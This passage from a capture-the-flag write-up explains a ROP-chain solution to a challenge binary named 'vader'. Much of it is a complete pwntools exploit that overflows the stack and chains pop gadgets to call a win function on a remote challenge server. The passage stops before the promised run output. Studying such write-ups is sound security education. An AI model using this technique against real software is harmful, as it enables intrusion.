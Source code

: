 Sometimes, you will need to work with more exotic gadgets, but in this case, pop gadgets for all of the registers we need are available in the binary.

## Putting It All Together

At this point, we know how to control the registers whose contents will be checked over the course of the win function. The actual contents of registers needs to be addresses to the strings to which they are respectively being compared; fortunately, those strings already exist in the binary, and it is pretty easy to find them using something like Ghidra:
![image](https://user-images.githubusercontent.com/10614967/161549241-5f93f724-8565-4473-96eb-8579d58b86a3.png)
Here is what the final script looks like:
```
from pwn import *

local = 0
if local == 1:
	target = process('./vader')
    #This breaks toward the end of main. Run it locally and watch the pops and register values to get a feel for how this works.
	pid = gdb.attach(target, "\nb *0x004015f8\n set disassembly-flavor intel\ncontinue")
else:
	target = remote('0.cloud.chals.io', 20712)

elf = ELF('vader')

#Gadgets:
pop_rdi = 0x000000000040165b	
pop_rsi_r15 = 0x0000000000401659
pop_rcx_rdx = 0x00000000004011cd
pop_r8 = 0x00000000004011d9

#Strings:
DARK = 0x00402ec9
S1D3 = 0x00402ece
OF = 0x00402ed3
TH3 = 0x00402ed6
FORC3 = 0x00402eda

print(target.recvuntil(b'Now I am the master >>>'))
#I used cyclic to figure out the padding size, I did not consider the explanation super important for the write-up.
payload = cyclic(200)
padding = b'a' * 40
payload = padding
payload += p64(pop_rdi)
payload += p64(DARK)
payload += p64(pop_rsi_r15)
#I just put two copies of the S1D3 address on the stack so that the second one is popped into r15.
payload += p64(S1D3) * 2
payload += p64(pop_rcx_rdx)
#The first address goes into rcx, and the second goes into rdx.
payload += p64(TH3) + p64(OF)
payload += p64(pop_r8)
payload += p64(FORC3)
#This is just an easy way to get the addresses of named functions in pwntools.
payload += p64(elf.symbols['vader'])

target.sendline(payload)


target.interactive()
```
And here is what it looks like when the program is run against the remote server: